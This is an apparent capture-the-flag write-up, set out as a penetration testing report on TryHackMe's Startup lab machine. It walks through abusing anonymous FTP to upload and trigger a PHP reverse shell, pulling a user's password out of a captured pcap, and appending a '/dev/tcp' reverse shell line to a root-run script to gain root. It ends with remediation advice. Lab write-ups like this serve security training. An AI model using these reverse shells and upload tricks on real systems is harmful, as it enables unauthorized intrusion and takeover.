










# Penetration Testing Report: Startup TryHackMe

---

## Disclaimer

This document is for educational and authorized penetration testing purposes only. The techniques, tools, and methodologies described herein should only be applied to systems you own or have explicit written permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author assumes no liability for any misuse or damage caused by the information provided in this report.

---

## Overview

| **Field** | **Details** |
|-----------|-------------|
| **Lab Name** | Startup TryHackMe |
| **Lab Type** | Boot2Root / Capture The Flag (CTF) |
| **Objective** | Gain initial access, escalate privileges, and capture flags |
| **Attack Vector** | FTP Anonymous Login → Reverse Shell → Privilege Escalation |

This penetration testing report documents the step-by-step methodology used to compromise the Startup machine on TryHackMe. The assessment covers reconnaissance, exploitation, post-exploitation, and privilege escalation techniques.

---

## Tools Used

| **Tool** | **Purpose** |
|----------|-------------|
| **Nmap** | Network reconnaissance and service enumeration |
| **FTP Client** | Anonymous login and file transfer |
| **Netcat (nc)** | Reverse shell listener |
| **Wget** | File retrieval from target |
| **Strings** | Extract readable strings from binary/pcap files |
| **Grep** | Pattern matching and filtering |
| **PHP** | Reverse shell payload generation |
| **Bash** | Command execution and privilege escalation |

---

## Reconnaissance

### Nmap Scan

Initial reconnaissance was performed to identify open ports and running services on the target.

```bash
nmap -sV -A -T4 -sCV <target_ip>
```

### Scan Result


### FTP Anonymous Login Test
The FTP service was tested for anonymous login vulnerability.



Result: Successful login confirmed. The FTP server allowed anonymous access with no password.
when ftp shell gained, tester can enumerate each directory in FTP. In this FTP shell tester can not change or make file.

#### Step 1: PHP Reverse Shell Creation
To ensure persistence and pervilege escalation, tester need to make an external code in kali linux attacker box and inject it to FTP target. You can obtain this code by accessing revershell.php in this directory. 

```bash
put /path/to/revershell.php new_shell.php
```

After reverseshell code injected, tester can run it with accessing this link in the browser:

https://<ip_target>/files/ftp/new_shell.php

and open listener in another terminal attacker in the same port with the injected code:
nc -lvnp 4444



#### Step 2: System Enumeration
Once inside the target system, tester can performed enumeration such as:

```bash
# Check current user
whoami

# directory enumeration
ls -la /

# first flag
cat recipe.txt
```

from the directory enumeration we find that /incidents can be accessed by www-data. Moreover in /etc directory we can find that there are shell code named print.sh that can be run by user lennie. 



In addition, in /incidents directory tester can find suspicious file log such as suspicious.pcapng.
tester can transfer this files into kali linux attacker box to analyze more. 

in target revershell:
```bash
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

in kali attacker:
```bash
wget http://<ip_target>/files/ftp/suspicious.pcapng

strings suspicious.pcapng | grep -E ”lennnie|@”
```




take a note: in linux athentication log, password will be written @. With this command, there will appear lennie's password in log.

#### Step 3: Pervilege Escalation
with the password gained in system enumeration, try access ssh using lennie username and password. 

In gaining second flag, open /home/lennie directory and open user.txt:
```bash
cat user.txt
```


In the same directory /home/lennie there are directory named scripts, testers can enumerate each content file in this directory. One of the file named planner.sh can be run only by root, but the content running print.sh (shellcode tester found before)





This conditions indicate that planner shellcode will execute every code in print shellcode. However, as the tester found before print shellcode can be write by lennie. 

#### Step 4: Root Reverse Shell 
Using lennie authority, write down print shell code into a reverse shell by using this command:

```bash
echo 'bash -c "bash -i >& /dev/tcp/<ip_attacker>/4445 0>&1"' >> /etc/print.sh
```

and in the other terminal activate listener in port 4445 same as the revershell root code.



as the result of this root reverse shell, tester can find the final flag.

## Vulnerability Summary

| **Service** | **Vulnerability** | **Risk Level** | **Exploitation Method** |
|-------------|------------------|----------------|------------------------|
| **FTP (Port 21)** | Anonymous Login Enabled | **High** | Unauthorized file upload/download using anonymous:blank credentials |
| **Web Application** | File Upload Vulnerability | **Critical** | PHP reverse shell upload and execution via web access |
| **Network Traffic** | Plaintext Credentials in PCAP | **High** | Credential extraction using `strings` and `grep` |
| **Print Script (print.sh)** | Insecure File Permissions (Writable) | **High** | Reverse shell injection into executable script |
| **Privilege Escalation** | Sudo/Script Misconfiguration | **Critical** | Horizontal privilege escalation to lennie user, then root via script modification |
| **System Configuration** | Weak Password Storage | **Medium** | Passwords transmitted and stored in plaintext within pcap files |
## Recommendations

| **Vulnerability** | **Recommendation** | **Priority** | **Implementation Steps** |
|-------------------|-------------------|--------------|-------------------------|
| **Anonymous FTP** | Disable Anonymous FTP Access | **Critical** | 1. Edit `/etc/vsftpd.conf`<br>2. Set `anonymous_enable=NO`<br>3. Restart FTP service: `systemctl restart vsftpd` |
| **File Upload Vulnerability** | Implement Secure File Upload Controls | **Critical** | 1. Validate file types (whitelist only allowed extensions)<br>2. Store uploaded files outside webroot<br>3. Rename uploaded files randomly<br>4. Disable PHP execution in upload directories |
| **Plaintext Credentials** | Encrypt Network Traffic | **High** | 1. Implement TLS/SSL for all services<br>2. Use SFTP instead of FTP<br>3. Enforce HTTPS for web applications<br>4. Avoid transmitting credentials in plaintext |
| **Writable Script Permissions** | Restrict Script Permissions | **High** | 1. Set proper ownership: `chown root:root /etc/print.sh`<br>2. Remove write permissions: `chmod 755 /etc/print.sh`<br>3. Audit all executable scripts |
| **Privilege Escalation** | Implement Least Privilege Principle | **High** | 1. Limit sudo access<br>2. Use separate service accounts<br>3. Regular permission audits |
| **Password Storage** | Use Secure Password Management | **Medium** | 1. Avoid storing passwords in logs/pcap files<br>2. Implement password rotation policy<br>3. Use password managers |

---

**References:**https://amanisher.medium.com/startup-tryhackme-ctf-walkthrough-1929078c4c4c
